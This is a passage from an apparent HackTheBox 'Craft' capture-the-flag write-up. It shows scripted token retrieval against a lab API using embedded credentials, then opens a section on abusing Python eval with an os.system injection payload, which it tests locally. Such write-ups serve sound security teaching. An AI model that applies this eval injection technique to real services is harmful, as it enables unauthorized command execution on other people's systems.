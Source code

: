 ```

token = jwt.encode({'user': auth.username, 'exp' : datetime.datetime.utcnow() + datetime.timedelta(minutes=5)}, secret)

```

To get around this, I just had bash get me a token every time I wanted to run a command. I can get and save a token like this:

```

root@kali# TOKEN=$(curl -s -k -X GET "https://dinesh:4aUh0A8PbVJxgd@api.craft.htb/api/auth/login" -H  "accept: application/json" | jq -r '.token'); echo $TOKEN
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTYzMTczMjE3fQ.ssgEpcD1ny20yHo_aiOaypm0Th1Eqk97ap1yIDRvBTk

```

So now I can just replace `echo $TOKEN` with the next `curl` command I want to run:

```

root@kali# TOKEN=$(curl -s -k -X GET "https://dinesh:4aUh0A8PbVJxgd@api.craft.htb/api/auth/login" -H  "accept: application/json" | jq -r '.token'); \
> curl "https://api.craft.htb/api/auth/check" -H  "accept: application/json" -k -H "X-CRAFT-API-TOKEN: $TOKEN"
{"message":"Token is valid!"}

```

### Abusing Python eval Statements

The `eval` statement in `python` let’s one run a string as python. [This post](https://www.floyd.ch/?p=584) has a pretty good detailed write up on it, though it goes into way more difficult cases than this one. From that post, I’ll grab the following:

```

__import__('os').system('echo hello, I am a command execution')

```

I’ll test that in a `python` shell:

```

root@kali# python3
Python 3.7.3 (default, Apr  3 2019, 05:39:12) 
[GCC 8.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> s = "__import__('os').system('echo hello, I am a command execution')"
>>> eval(s)
hello, I am a command execution
0

```

